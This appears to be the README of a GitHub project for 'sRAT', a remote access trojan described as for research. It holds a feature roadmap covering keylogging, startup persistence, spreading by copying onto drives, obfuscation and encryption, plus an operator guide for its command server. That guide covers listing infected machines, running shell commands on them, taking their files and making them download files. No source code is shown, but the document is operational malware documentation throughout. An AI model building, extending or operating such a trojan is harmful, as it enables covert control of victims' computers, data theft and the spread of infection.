 # sRAT

A small remote access trojan, for research purposes.

## todo list

1. DONE: communication
    1. DONE: server host
    2. DONE: request syntax
2. features
    1. DONE: command exec
    2. DONE: data transfer
    3. *key logging*
3. infection
    1. startup
    2. copy on volumes
4. sneak
    1. obfuscation
    2. encryption

## git usage

Always use **branches** when implementing a *feature* or a *fix*, with syntax `feature/yourName/featureName` or `fix/yourName/bugToFix`, and be careful when merging.

## server usage

You may insert commands after the `>` prompt. At any time, you can list commands typing `help`.

**global server commands**

command        | argument | description
-------------- | -------- | -----------
`help`         |          | display all commands
`exit`         |          | close server
`list`         |          | list all connected clients
`select`       | id       | select a client, given its id. opens a connection.
`unselect`     |          | unselect the client. close the connection.
`log`          | [nRows]  | prints out the log ; if an argument is passed, prints the selected amount of lines.
`save_clients` |          | save clients info to an external file, named `clients`.

**seleted client commands**

command | argument              | description
------- | --------------------- | -----------
`info`  |                       | display all information about the selected client 
`exec`  | command               | make the client execute a given shell command
`upld`  | clientFile serverFile | upload a file from the client to the server
`dwnld` | fileUrl localFile     | make the client download a file given by its url

### select client

#### list all connected clients

To display all connected clients, use

	>list

It will output a two-column array, with ids and MACs of all connected clients.

	>list
	id     MAC address         IP Address     OS
	1234   AA-BB-CC-DD-EE-FF   /192.168.1.2   Windows 10
	5678   00-11-22-33-44-55   /192.168.1.3   Windows 7

#### select one client

To selcet a client, use `select ID`. For example,

	>select 1234
	Selected client 1234
	1234*>

It may take up to 10 seconds to connect (the time between two clients ping). Now the prompt should begin as follows:

	Client 1234 connected.
	1234>

### execute a command

When a client is selected, make it execute a command with `exec YOUR_COMMAND`.

	1234>exec ipconfig
	Added command to stack

It might take a few seconds, and then the output will be printed. If the client is using Windows, you can start any shell command with

	1234>exec cmd.exe /C YOUR_COMMAND

The output will be sent back to you.
